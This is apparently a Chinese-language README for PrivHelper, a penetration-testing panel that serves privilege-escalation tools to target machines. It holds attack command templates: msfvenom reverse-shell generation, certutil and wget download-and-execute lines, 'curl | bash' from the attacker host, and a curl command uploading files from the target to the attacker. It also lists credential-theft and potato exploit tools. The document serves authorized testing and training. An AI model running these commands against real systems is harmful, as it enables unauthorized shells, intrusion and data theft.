# PrivHelper-updog v1.1.0
## 简介

作者：~~Ra's Al Ghul~~

PrivHelper 是一个面向渗透测试/OSCP场景的轻量级提权辅助面板，用于统一管理本地工具集（tools 目录），并提供一个 HTTP 文件服务器给目标机下载，同时在 Web 面板中展示每个工具的使用说明与下载直链（点击即可复制）。**本项目主要目的是提高效率，方便管理工具，防止每次都要在不同的工具目录开http服务，手动敲下载命令或者找笔记怎么使用。**

**思路上借鉴了senderend大佬的[hackbook项目](https://github.com/senderend/hackbook)**

> 提示：当前版本为开发/测试版，功能和变量定义可能随时调整；请优先用于合法授权的学习研究与安全测试场景。

目前启动后的页面



## 功能特性

- Web 面板展示工具树：按 windows / linux / other 分类，支持多级目录
- 每个工具默认展示下载直链（点击复制）
- 读取同名 .usage 文件，展示常用命令（点击复制）
- 内置 HTTP 文件服务器，支持访问日志查看
- BADIP 可在页面手动更新并持久化到浏览器本地存储

## 运行方式

环境要求：

- Python 3
- Flask

安装依赖：

```bash
pip install flask
```

启动：

```bash
python app.py
```

Windows 机器如果系统里同时存在 Python2/3，建议用：

```bash
py -3 app.py
```

启动后会同时运行：

- Web 面板：默认 `0.0.0.0:5000`
- HTTP 下载服务：默认从 `0.0.0.0:80` 开始探测可用端口（占用则自动 +1）

可选功能，工具会优先使用updog来开启http服务，updog可以同时满足上传和下载两种需求，建议安装

```
pipx install updog
```

### 启动参数

- `-l / --web-port`：Web 面板端口（默认 5000）
- `-p / --http-port`：HTTP 文件服务端口（不指定则从 80 自动+1寻找可用端口）
- `-badip / --bad-ip`：默认 BADIP（不指定则 Linux 下优先取 tun0 IPv4，失败则回退）

示例：

```bash
# 指定 Web 端口
python app.py -l 9000

# 指定下载服务端口
python app.py -p 8080

# 强制指定 BADIP
python app.py -badip 10.10.14.3
```

## tools 目录结构

工具默认放在项目根目录的 tools 下：

```text
tools/
  windows/
    bin/
    script/
  linux/
    bin/
    script/
  other/
```

你可以任意新增多级子目录，例如 `tools/windows/bin/privesc/xxx.exe`，面板会自动递归识别并展示。

## .usage 文件规范

每个工具（文件）可以配一个同名 `.usage` 文件，用来展示说明与命令模板：

- 工具：`tools/windows/bin/winPEASx64.exe`
- 说明：`tools/windows/bin/winPEASx64.exe.usage`

格式规则：

- 第 1 行：描述（展示为工具说明，或者可以直接将官方项目地址写在这里）
- 第 2 行起：命令（逐行展示；前端点击即可复制）
- 目录级说明：任意目录下可放置 `readme.usage`（或 `README.usage`），用于记录“无需下载工具”的通用命令/备忘；该说明会在目录下优先展示（排在第一个），默认展开，可折叠，并且会记住折叠状态（刷新保持）
- 单行注释：以 `#` 开头的行会被当作注释，默认不展示（用于保留旧写法/备份）
- 多行注释：用 `###` 包裹，默认不展示，但可在前端点击“注释”按钮展开/折叠，例如：

```text
###
这是一个示例多行注释，在前端默认隐藏，但是也可以显示
###

###
这是第二个示例多行注释，在前端默认隐藏，但是也可以显示
###
```

### 单行提示（步骤描述）

当命令比较多、容易忘记含义时，可以用 `>` 开头的行写“步骤提示”，提示会以小字显示在该条命令上方，仅作用于紧随其后的下一条命令：

```text
示例：带步骤提示的命令
> 第一步：写一个测试文件
echo "test" > hash.txt
> 第二步：拷贝一份
copy hash.txt hashtmp.txt
```

## 变量替换（核心）

在 `.usage` 的命令中可使用以下变量，面板渲染时会自动替换：

- `$badip`：BADIP（页面可改；Linux 默认优先使用 tun0 IPv4）
- `$badurl`：下载服务根地址，例如 `http://$badip:80`（端口会跟随实际 HTTP 服务端口）
- `$downloadurl`：当前工具的下载直链，例如 `http://$badip:80/windows/bin/winPEASx64.exe`
- `$badfile`：当前工具的文件名（不含路径），例如 `winPEASx64.exe`
- `$callback_ip`：回连 IP（前端可改；默认等于 BADIP；若用户手动设置过则不再跟随 BADIP）
- `$callback_port`：回连端口（前端可改；默认 4444）
- `$toolpath`：当前工具所在目录的绝对路径（例如 `.../tools/windows/shell`）
- `$toolfile`：当前工具文件的绝对路径（例如 `.../tools/windows/shell/shell80.exe`）

推荐优先使用 `$downloadurl`，因为它不依赖你手动拼接路径，目录变动也不需要改命令模板。

提示：以上变量在多行注释块（`###` 包裹）里也会被替换后显示和复制；在步骤提示（`>` 开头）里同样会被替换后显示。

## 经典示例

### 涉及回连端口的情况

#### 反向shell（固定反弹到443）

为shell443.exe编写.usage

```
msf生成nc可接收的80端口的反向shell，建议每次使用先执行第一条命令覆盖原有shell（因为回连ip会变）
>重新生成反向shell，覆盖原有shell
msfvenom -p windows/shell_reverse_tcp LHOST=$callback_ip LPORT=80 -f exe -o $toolfile
>cmd执行下载shell的命令
certutil -urlcache -split -f $downloadurl C:\windows\temp\$badfile
>cmd执行反向shell
C:\windows\temp\shell80.exe
```

前端显示效果



msfvenom生成shell的时候自动替换了当前文件的路径，ip使用的是回连ip（因为没有手动修改，所以默认为badip），端口由于我们写死了，命名也是shell443.exe，所以这个仅限于每次都往443端口弹的场景

#### 反向shell（灵活反弹到回连端口变量）

很简单，上面的案例我们手动写死了LPORT，所以没有动态解析回连端口变量，这里把他改成变量的形式即可，这里由于是动态解析端口，所以文件命名我们就使用shell.exe了

```
msf生成nc可接收的反向shell，端口为页面右上角的回连端口（可修改），建议每次使用先执行第一条命令覆盖原有shell（因为回连ip会变）
>重新生成反向shell，覆盖原有shell
msfvenom -p windows/shell_reverse_tcp LHOST=$callback_ip LPORT=80 -f exe -o $toolfile
>cmd执行下载shell的命令
certutil -urlcache -split -f $downloadurl C:\windows\temp\$badfile
>cmd执行反向shell
C:\windows\temp\$badfile

```

显示效果



### 不涉及回连端口的情况

#### linpeas

[Release Release refs/heads/master 20260323-31545e76 · peass-ng/PEASS-ng · GitHub](https://github.com/peass-ng/PEASS-ng/releases/tag/20260323-31545e76)

##### 脚本

为linpeas.sh编写.usage

```
官方地址：https://github.com/peass-ng/PEASS-ng/releases/download/20260315-d7c1e6ce/
>有curl的情况下，文件不落地
curl $downloadurl | bash
>没有curl就用wget下载到tmp目录在执行
cd /tmp && wget $downloadurl && chmod +x $badfileh && ./$badfile
```

前端显示如下图



##### 二进制程序

为linpeas_linux_amd64编写.usage

```
amd64-官方地址：https://github.com/peass-ng/PEASS-ng/releases/download/20260315-d7c1e6ce/
>wget下载到tmp目录在执行
cd /tmp && wget $downloadurl && chmod +x $badfile && ./$badfile
```

前端显示如下图



#### winpeas

为winPEASx64.exe编写.usage

```
项目地址:https://github.com/peass-ng/PEASS-ng
>下载winpeas到C:\windows\temp目录下
certutil -urlcache -split -f $downloadurl C:\windows\temp\$badfile
>改注册表使得winpeas能够格式化输出
REG ADD HKCU\Console /v VirtualTerminalLevel /t REG_DWORD /d 1
>运行winpeas
C:\windows\temp\$badfile
```

前端显示如下



#### PrintSpoofer

为PrintSpoofer64.exe编写.usage

```
项目地址:https://github.com/itm4n/PrintSpoofer
certutil -urlcache -split -f $downloadurl C:\windows\temp\$badfile
C:\windows\temp\$badfile -i -c cmd

###
这是一个利用SeImpersonatePrivilege特权进行提权的程序
如果失败，可检查服务状态：Get-Service Spooler，stop则无法直接利用
###
```

前端显示如下



#### 什么都不写，仅下载用（适合临时，只用一次的场景）

直接把文件丢在tools/other目录即可，如下



前端也会显示下载直链的，可以复制粘贴拿去自己操作使用，适合非通用场景，可能这个exp只用这一次，编译完扔进去用就行了，也不用编写.usage

## 日志

http日志默认会显示在页面最下方，状态码200绿色，其他红色，便于排错



日志目录（logs）下的文件仅用于程序运行中记录http日志，每次启动会清空

## 文件上传

该功能依赖于updog，需要安装updog后才能使用，如果已经安装好，则可以通过点击主页中间的“打开上传页面”打开updog的页面



如果有远程桌面连接上去，较大的文件就可以用网页直接上传回攻击机了，如果是shell内，则可以通过命令上传

```
curl.exe -v -F "file=@file.txt;filename=file.txt" -F "path=/home/kali/Desktop/upup/PrivHelper/tools/windows" http://192.168.1.4:80/upload
```

上面这条命令是将目标（windows系统）当前目录下的file.txt文件，上传到kali的/home/kali/Desktop/upup/PrivHelper/tools/windows目录下，上传路径不需要修改，已经写好usage了，直接点击页面上的命令复制即可，在windows分区复制的默认上传到/home/kali/Desktop/upup/PrivHelper/tools/windows，在linux分区复制的默认上传到/home/kali/Desktop/upup/PrivHelper/tools/linux下





执行效果如上图，不建议使用powershell命令，因为版本问题可能会不支持参数

## 工具收录（已经写过usage的）

| 平台    | 阶段  | 分类            | 工具                            | 核心作用                         |
| ------- | ----- | --------------- | ------------------------------- | -------------------------------- |
| Linux   | 枚举  | 自动化枚举      | linpeas                         | 收集提权信息（SUID/cron/权限等） |
| Linux   | 枚举  | 漏洞建议        | linux-exploit-suggester         | 根据内核推荐漏洞                 |
| Linux   | 枚举  | 进程监控        | pspy                            | 监控 root 任务/cron              |
| Linux   | 提权  | 本地漏洞        | CVE-2021-3156                   | sudo 提权                        |
| Linux   | 提权  | 本地漏洞        | PwnKit                          | polkit 提权                      |
| Windows | 枚举  | 自动化枚举      | winPEAS                         | 收集提权信息                     |
| Windows | 枚举  | PowerShell 枚举 | PowerUp.ps1                     | 检测提权路径                     |
| Windows | 枚举  | 安全审计        | PrivescCheck.ps1                | 深度权限检查                     |
| Windows | 枚举  | 文件搜索        | searchall64.exe                 | 查找敏感文件                     |
| Windows | 凭据  | 凭据抓取        | mimikatz                        | 抓明文/hash/票据                 |
| Windows | 凭据  | Kerberos 攻击   | Rubeus                          | Kerberoast / AS-REP              |
| Windows | 横向  | 用户切换        | RunasCs                         | 使用已有凭据登录                 |
| Windows | AD    | 域枚举          | SharpHound                      | 收集 AD 关系数据                 |
| Windows | 提权  | Potato 系列     | JuicyPotato                     | 老系统 COM 提权                  |
| Windows | 提权  | Potato 系列     | GodPotato                       | 新系统提权                       |
| Windows | 提权  | Potato 系列     | SigmaPotato                     | 高兼容提权                       |
| Windows | 提权  | Token 利用      | PrintSpoofer                    | Print Spooler 提权               |
| Windows | 提权  | 权限滥用        | SeManageVolumeExploit           | 特权滥用提权                     |
| Windows | 提权  | EFS 利用        | SharpEfsPotato                  | RPC 提权                         |
| Windows | Shell | EXE 反弹        | shell.exe / shell443.exe        | 反弹 shell                       |
| Windows | Shell | DLL 反弹        | shell.dll                       | DLL 劫持执行                     |
| Windows | Shell | PowerShell      | powercat / Invoke-PowerShellTcp | 内存反弹 shell                   |
| Windows | Shell | 基础工具        | nc64.exe                        | 监听/反弹连接                    |
| 通用    | Shell | Webshell        | php-reverse-shell               | Web 反弹 shell                   |
| 通用    | 内网  | 隧道            | ligolo                          | 内网穿透 / pivot                 |

# 常见问题

1. 为什么我点击命令显示复制成功了，但是在目标终端无法粘贴

因为linux复制粘贴有两种，用鼠标选中再复制的内容，可以使用鼠标中键直接粘贴。但是本工具在页面上点击复制的内容会走另一个模式，粘贴需要按CTRL + SHIFT + V

2. 为什么命令执行后，目标请求不到，也没有http日志显示

可能的原因有，ip替换的不对，可能是您上一次使用工具浏览器的缓存导致，可以清空一下缓存



还可能是目标不出网，或者端口受限，建议服务端口选用目标已经开放的端口

# 更新记录

v1.0.0-初始版本，功能基本完成

v1.0.1-测试版本，新增一些变量及前端优化

v1.1.0版本-增加了updog，将原有使用的http.server改为先尝试使用updog，如果没安装updog则继续使用http.server，如果有updog则用updog（便于某些场景下接收回传的文件）

# 免责声明

本项目仅用于合法授权的安全测试、学习研究与内部自查场景：

- 禁止用于任何未授权的入侵、破坏、数据窃取或其他违法行为
- 使用本项目产生的任何直接或间接后果由使用者自行承担
- 作者不对任何滥用行为负责，也不提供针对非法用途的支持
